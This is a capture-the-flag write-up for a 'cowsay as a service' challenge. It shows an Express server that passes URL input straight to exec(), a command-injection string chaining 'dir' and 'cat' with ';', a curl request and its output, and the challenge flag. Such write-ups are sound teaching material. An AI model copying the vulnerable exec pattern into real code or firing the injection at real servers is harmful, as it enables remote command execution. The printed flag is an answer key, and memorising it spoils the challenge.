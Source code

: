 # Caas
Author: dch0017

## Challenge Description
Now presenting cowsay as a service

## Accessing Site
We get a fun little site that lets us send messages using the extended url ```/cowsay/:message``` </br>
![website](./website.png)
</br>

![moo](./moo.png)
</br>


## Index.js
We also get an index. js file like below
```js
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});

```

We can see that when the ```/cowsay/:message``` is called it pipes all text from there to ```stdout``` (as long as there are no errors). Well this looks like we just need to inject a command in our message.

## Message Injection
Just trying to do a direct ```dir``` command to list the file directory just gives us a cow:</br>
![dir](./dir.png)
</br>

If we are wanting to pipe two inputs on a singular line, we would need to use either a ```;``` or a ```&&``` [reference](https://www.howtogeek.com/269509/how-to-run-two-or-more-terminal-commands-at-once-in-linux/)</br>

So let's try that with ```dir```:</br>
![moodir](./moodir.png)
</br>

Sweet, we see that there is a file called ```falg.txt``` and we can ```cat``` that out. I won't remove dir, I'll just add onto it to show we could really throw as many commands as we want.</br>
![flag](./flag.png)
</br>

## Curl method
We could have also accomplished this using curl, though make sure to put the entire URL in quotes or you will be running the separate commands on your own machine:
```console
PS C:\temp> curl "https://caas.mars.picoctf.net/cowsay/moo;dir;cat%20falg.txt"
 _____
< moo >
 -----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile  falg.txt  index.js  node_modules  package.json  public  yarn.lock
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```